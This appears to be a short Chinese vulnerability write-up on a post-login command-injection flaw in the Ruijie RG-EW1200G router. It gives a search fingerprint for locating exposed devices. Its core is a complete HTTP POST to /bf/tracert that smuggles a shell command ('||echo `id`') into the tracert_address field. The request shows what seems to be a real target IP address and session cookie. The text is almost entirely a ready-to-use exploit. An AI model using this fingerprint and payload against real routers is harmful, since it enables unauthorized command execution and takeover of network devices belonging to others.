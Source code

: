 # 锐捷RG-EW1200G路由器后台命令执行

# <font style="color:rgba(0, 0, 0, 0.9);">一、漏洞简介</font>
<font style="color:rgba(0, 0, 0, 0.9);">锐捷网络RG-EW1200G 存在后台命令执行漏洞，登录路由器后，可执行任意命令，控制内部网络</font>

# 二、影响版本
+ <font style="color:rgba(0, 0, 0, 0.9);">RG-EW1200G无线路由器</font>

# 三、资产测绘
```plain
body="/static/js/app.09df2a9e44ab48766f5f.js"
```

![1711861011537-b26157a8-4ea8-4b53-9e61-798dd6a3cb05.png](./img/T47hLu2WF7iLYEL_/1711861011537-b26157a8-4ea8-4b53-9e61-798dd6a3cb05-076485.png)

+ 登录页面

![1711860999021-84f63469-af01-48b1-8a8f-5d94d53d0fd0.png](./img/T47hLu2WF7iLYEL_/1711860999021-84f63469-af01-48b1-8a8f-5d94d53d0fd0-236414.png)

# 四、漏洞复现
```plain
POST /bf/tracert HTTP/1.1
Host: 
Content-Length: 53
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Content-Type: application/json;charset=UTF-8
Origin: http://175.167.44.37:6060
Referer: http://175.167.44.37:6060/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: bcrsession=f1d7956e195d123d8f0b4a6670553a7cda05348636f998dddeff1d3f3fe1fc8d87ed86b4b4818536
Connection: close

{"tracert_address":"||echo `id`","is_first_req":true}
```

![]()



> 更新: 2024-06-24 11:42:27  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/vmp57vmo35od9v3c>